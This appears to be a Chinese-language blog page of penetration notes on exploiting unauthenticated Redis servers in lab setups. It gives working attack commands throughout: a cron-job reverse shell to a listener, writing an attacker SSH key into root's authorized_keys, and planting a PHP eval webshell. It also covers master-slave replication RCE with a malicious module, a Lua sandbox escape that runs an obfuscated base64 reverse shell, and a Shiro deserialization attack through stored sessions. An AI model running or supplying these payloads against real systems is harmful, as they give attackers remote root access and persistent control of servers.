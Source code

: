 # Redis客户端

```
sudo apt update
sudo apt install redis-tools
---
gui
https://github.com/qishibo/AnotherRedisDesktopManager

redis-cli -h 127.0.0.1
```

![](https://img.mi3aka.eu.org/2022/08/a1244184910709658599795a50317189.png)

`redis-cli -h your_host -p 6379 -a "pass" --raw`

`-h` 远程连接的主机

`-p` 远程连接的端口

`-a` 密码

`--raw` 解决中文乱码

# 计划任务反弹shell

```
#反弹shell
set getshell "\n* * * * * bash -i >& /dev/tcp/ip/7000 0>&1\n"
#计划任务路径 ubuntu/debian
config set dir /etc/cron.d
#保存为test文件
config set dbfilename test
#保存
save
```

![](https://img.mi3aka.eu.org/2022/08/8fbe7a6b8aeabf44cd824d24412030fb.png)

![](https://img.mi3aka.eu.org/2022/08/f7263ca7275e6ad8b8fa62877ef8bdba.png)

![](https://img.mi3aka.eu.org/2022/08/e75f82a956bdf1bc2b90f1904ecead3e.png)

>无法正常反弹原因

计划任务中存在乱码，也就是这些乱码导致计划任务执行错误。
这是由于redis向任务计划文件里写内容出现乱码而导致的语法错误，而乱码是避免不了的，centos会忽略乱码去执行格式正确的任务计划，而ubuntu并不会忽略这些乱码，所以导致命令执行失败，因为自己如果不使用redis写任务计划文件，而是正常向/etc/cron.d目录下写任务计划文件的话，命令是可以正常执行的，所以还是乱码的原因导致命令不能正常执行，而这个问题是不能解决的，因为利用redis未授权访问写的任务计划文件里都有乱码，这些代码来自redis的缓存数据。

# 写入ssh公钥

```
set sshpubkey "\n\nssh-rsa AAAAB3Nzaxxx\n\n"

config set dir /root/.ssh

config set dbfilename authorized_keys

save
```

![](https://img.mi3aka.eu.org/2022/08/cb1a6d3734c8f4506001219f2b49c775.png)

![](https://img.mi3aka.eu.org/2022/08/b835023633794da2ed81ddb461e8ae69.png)

# 写入webshell

```
config set dir /var/www/html/
config set dbfilename webshell.php
set x '<?php @eval($_GET["cmd"]);phpinfo();?>'
save
```

# Redis主从复制导致的命令执行

影响版本4.x-5.x

1. 生成恶意so文件

```
git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand
cd RedisModules-ExecuteCommand/
make
```

2. 漏洞利用

[https://github.com/Ridter/redis-rce](https://github.com/Ridter/redis-rce)

`python redis-rce.py -r 目标ip -p 目标端口 -L 本地ip -f 恶意.so`

>这里使用的vulhub的复现镜像,注意目标ip填写127.0.0.1,本地ip填写docker0的网卡ip,如果本地ip填写127.0.0.1会导致监听的端口建立在宿主机,但容器反弹到的确实容器内部的端口

![](https://img.mi3aka.eu.org/2022/08/a9fcc7704b3781c0a8702f77d7538774.png)

![](https://img.mi3aka.eu.org/2022/08/1bd6db5b5c38cc62dab1ac66277b39e9.png)

---

直接利用

[https://github.com/n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)

[https://github.com/Testzero-wz/Awsome-Redis-Rogue-Server](https://github.com/Testzero-wz/Awsome-Redis-Rogue-Server)

# Redis Lua沙盒绕过命令执行

>借助Lua沙箱中遗留的变量`package`的`loadlib`函数来加载动态链接库`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`里的导出函数`luaopen_io`,在Lua中执行这个导出函数,即可获得`io`库,再使用其执行命令

```
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
"uid=0(root) gid=0(root) groups=0(root)\n"

127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("echo c2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE3LjAuMS83MDAwIDA+JjEK | base64 -d | bash -i", "r"); local res = f:read("*a"); f:close(); return res' 0
```

![](https://img.mi3aka.eu.org/2022/08/8b97ccdf972f11fa444193aefc127c16.png)

# Redis未授权到shiro反序列化

[https://xz.aliyun.com/t/11198](https://xz.aliyun.com/t/11198)

```
docker pull redis:3.2
docker run -dit -p 6379:6379 redis:3.2
git clone https://github.com/alexxiyang/shiro-redis-spring-boot-tutorial.git
运行ShiroRedisSpringBootTutorialApplication.java
```

![](https://img.mi3aka.eu.org/2022/08/8045107933ec8e68ad0e58ef9a167f2f.png)

![](https://img.mi3aka.eu.org/2022/08/0542ef5c27f797a27ac297516cf2b8a3.png)

`\xac\xed`原始序列化数据开头,尝试利用redis中的session进行反序列化攻击

![](https://img.mi3aka.eu.org/2022/08/dec200f40d2dab5aabb802c811131d3e.png)

利用脚本将`raw.txt`转换成`\x00`的形式

>如果直接print(raw)会直接输出`\n\r`等字符,破坏利用链

```python
with open('raw.txt','rb') as f:
    raw=f.read()
for i in raw:
    print(r'\x',str(hex(i))[2:].zfill(2),end="",sep="")
```

将输出的结果复制到Redis中以Hex格式保存即可,保存后会自动转换

![](https://img.mi3aka.eu.org/2022/08/f3b92533c3be2abe2471027cf2f1fb2e.png)

![](https://img.mi3aka.eu.org/2022/08/00e38a2a7884570ecf5321348fb51473.png)

修改cookie并重新发包

![](https://img.mi3aka.eu.org/2022/08/f49f37702b9537dcb50c9dab9f8c741a.png)

成功执行命令

![](https://img.mi3aka.eu.org/2022/08/34ca5ef684b7d3044898b8e0eb765f31.png)

在`org.crazycake.shiro.RedisSessionDAO#doReadSession`中

```java
    protected Session doReadSession(Serializable sessionId) {
        if (this.sessionInMemoryEnabled) {
            this.removeExpiredSessionInMemory();
        }

        if (sessionId == null) {
            logger.warn("session id is null");
            return null;
        } else {
            Session session;
            if (this.sessionInMemoryEnabled) {
                session = this.getSessionFromThreadLocal(sessionId);
                if (session != null) {
                    return session;
                }
            }

            session = null;

            try {
                String sessionRedisKey = this.getRedisSessionKey(sessionId);
                logger.debug("read session: " + sessionRedisKey + " from Redis");
                session = (Session)this.valueSerializer.deserialize(this.redisManager.get(this.keySerializer.serialize(sessionRedisKey)));//这里从redis中读取session对应的序列化数据并进行反序列化
                if (this.sessionInMemoryEnabled) {
                    this.setSessionToThreadLocal(sessionId, session);
                }
            } catch (SerializationException var4) {
                logger.error("read session error. sessionId: " + sessionId);
            }

            return session;
        }
    }
```

